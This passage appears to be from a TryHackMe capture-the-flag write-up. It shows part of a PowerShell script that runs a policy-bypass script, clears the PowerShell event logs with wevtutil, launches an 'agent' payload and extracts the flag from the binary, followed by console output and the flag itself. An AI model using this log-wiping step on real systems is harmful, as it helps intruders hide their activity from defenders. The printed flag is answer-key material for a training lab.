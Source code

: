 ```powershell
    wevtutil.exe clear-log $classicChannel 2>$null
}

# 4) Execute your payload
Write-Host "[*] Executing payload: $AgentPath" -ForegroundColor Cyan
try {
    Start-Process -FilePath $AgentPath -NoNewWindow
} catch {
    Write-Warning "Failed to launch ${AgentPath}: $($_)"
}

# 5) Give it a moment, then kill the agent process
Start-Sleep -Seconds 1
$proc = Get-Process -Name $AgentName -ErrorAction SilentlyContinue
if ($proc) {
    Write-Host "[*] Stopping agent process (to allow flag extraction)" -ForegroundColor Cyan
    $proc | Stop-Process -Force
} else {
    Write-Warning "agent process not found; maybe it already exited."
}

# 6) Extract the flag from agent.exe
Write-Host "[*] Extracting flag from $AgentPath" -ForegroundColor Cyan
Select-String -Path $AgentPath -Pattern 'T.*H.*M.*\{.*\}' -AllMatches |
    ForEach-Object { $_.Matches.Value } |
    ForEach-Object { Write-Host "FLAG: $_" }
```

Once we run it, we get:

```
PS C:\Users\Administrator\Desktop> .\script.ps1                                               [*] Running GPO bypass: .\gpo-bypass.ps1                                                       [*] Clearing Operational log: Microsoft-Windows-PowerShell/Operational                         [*] Clearing classic log: Windows PowerShell                                                   [*] Executing payload: .\agent.exe                                                             [+] Running ..                                                                                 [+] THM Monitoring Agent!                                                                      ------------------------                                                                       Binary leaked, you got caught                                                                  [*] Stopping agent process (to allow flag extraction)                                          [*] Extracting flag from .\agent.exe                                                           FLAG: t - W i n d o w s - S y s m o n / O p e r a t i o n a l '* [ S y s t e m / E v e n t I D = 1 ]  =T r a f f i c   h a l t e d ,   y o u   g o t   c a u g h t  5E r r o r   r e a d i n g   t h e   l o g :   { 0 }  1T H M { 5 1 l 3 n 7 _ l 1 k 3 _ 4 _ 5 n 4 k 3 }
```

We got our flag, this script tries to simulate the normal behavior this task would have, since this part is bugged, we can only retrieve the flag like this:

```
THM{51l3n7_l1k3_4_5n4k3}
```
